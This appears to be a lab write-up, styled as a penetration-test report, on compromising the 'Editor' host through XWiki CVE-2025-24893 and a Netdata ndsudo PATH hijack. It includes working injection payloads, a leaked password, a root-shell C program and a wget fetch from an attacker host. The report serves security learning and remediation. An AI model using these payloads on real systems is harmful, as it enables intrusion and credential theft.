

## Engagement Overview

The auditor was tasked with assessing **Editor**, a Linux host exposing an internal collaboration platform, under a black-box methodology with no prior credentials or documentation. The objective was to identify exploitable weaknesses reachable from an unauthenticated network position and determine the maximum level of access achievable.

## Methodology

The engagement followed a standard four-phase approach: reconnaissance, vulnerability identification, exploitation, and privilege escalation. Each finding below is presented with its technical root cause, the steps taken to validate it, and remediation guidance.

## Reconnaissance

The auditor began by mapping the target's exposed services. A single web application was identified at `wiki.editor.htb`, running **XWiki**, an open-source enterprise wiki and collaboration platform.

## Finding 1: Unauthenticated Remote Code Execution in XWiki (CVE-2025-24893)

> [!CAUTION]
> **Severity: Critical.** Unauthenticated remote code execution on the underlying host.

The tester confirmed the XWiki instance was affected by **CVE-2025-24893**, a server-side template injection in the `SolrSearch` macro that allows unauthenticated Groovy code execution. The vulnerability was triggered by injecting a Groovy payload into the `text` parameter of the `SolrSearch` REST endpoint:

```bash frame="code"
curl -v "http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"
```

A direct reverse shell attempt through this channel was unsuccessful, so the auditor pivoted to targeted file disclosure. XWiki stores its datasource credentials in `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`; the same injection technique was used to exfiltrate its contents:

```bash frame="code"
curl -v "http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22cat%20%2Fusr%2Flib%2Fxwiki%2FWEB-INF%2Fhibernate.cfg.xml%22.execute().text%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D" >> pass-search.txt
```

Filtering the resulting (large, minified) output for credential material surfaced a valid password:

```bash frame="code"
$ cat pass-search.txt | grep pass
...password">theEd1t0rTeam99&l...
```

The credential was easy to miss on first review: the exfiltrated configuration file is large and heavily minified. The auditor recommends reviewing full command output systematically rather than relying on visual scanning alone.

## Initial Access

The recovered credential was valid for SSH as the local user `oliver`:

```bash frame="code"
$ ssh oliver@10.10.11.80
oliver@10.10.11.80's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-151-generic x86_64)
oliver@editor:~$ ls
user.txt
```

This confirmed full interactive access to the host under a low-privileged account.

## Finding 2: Privilege Escalation via Insecure SUID Binary (Netdata `ndsudo`)

> [!WARNING]
> **Severity: High.** Local privilege escalation from a low-privileged user to `root`.

Running `linpeas.sh` as part of standard post-exploitation enumeration, the auditor identified a non-standard SUID binary belonging to a local Netdata installation:



```bash frame="code"
oliver@editor:/tmp$ ls -la /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
-rwsr-x--- 1 root netdata 200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

`ndsudo` is a root-owned SUID helper that Netdata uses to run diagnostic subcommands. Because it resolves those subcommands (such as `nvme-list`) by name rather than by absolute path, an attacker who controls `PATH` can supply a malicious binary that gets executed as `root`.

## Exploitation

The auditor compiled a minimal C payload that spawns a root shell, and served it to the target over HTTP:

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("[+] Root Shell...\n");
    setuid(0);
    system("/bin/sh -p");
}
int main(void) {
    dbquery();
    return 0;
}
```

The payload was then compiled locally and served over a temporary web server for retrieval by the target:

```bash frame="code"
$ gcc nvme.c -o nvme
$ python3 -m http.server 80
```

On the target, the payload was placed ahead of the legitimate binaries in `PATH` and invoked through `ndsudo`:

```bash frame="code"
$ mkdir ~/whatevername && cd ~/whatevername
$ wget http://<auditor-ip>/nvme
$ export PATH=~/whatevername:$PATH
$ ./opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
[+] Root Shell...
# whoami
root
```

This confirmed full root compromise of the host.

## Impact

Chained together, these two findings represent a complete compromise path from an unauthenticated network position to root: a template injection vulnerability in an internet-facing application exposed credentials that enabled interactive access, and a `PATH`-handling flaw in a locally installed monitoring agent enabled escalation to full administrative control. An attacker exploiting this chain would gain unrestricted read/write access to all data on the host and could use it as a pivot point into the wider network.

## Recommendations

- **Patch XWiki** to a version that resolves CVE-2025-24893, or restrict the `SolrSearch` macro's ability to execute Groovy scripts for unauthenticated requests.
- **Rotate the exposed datasource credential** and avoid storing plaintext database passwords in application configuration files; use a secrets manager or environment-scoped secrets instead.
- **Update Netdata** to a version where `ndsudo` resolves subcommands by absolute path, or remove the SUID bit if the diagnostic functionality is not required.
- **Restrict `PATH`** for privileged and SUID-executing contexts to trusted, non-user-writable directories only.

## Conclusion

The auditor successfully demonstrated a full compromise of the Editor host, from unauthenticated remote code execution to root, by combining a known application-layer vulnerability with a local privilege escalation weakness. Both findings are detailed above with reproduction steps and remediation guidance.
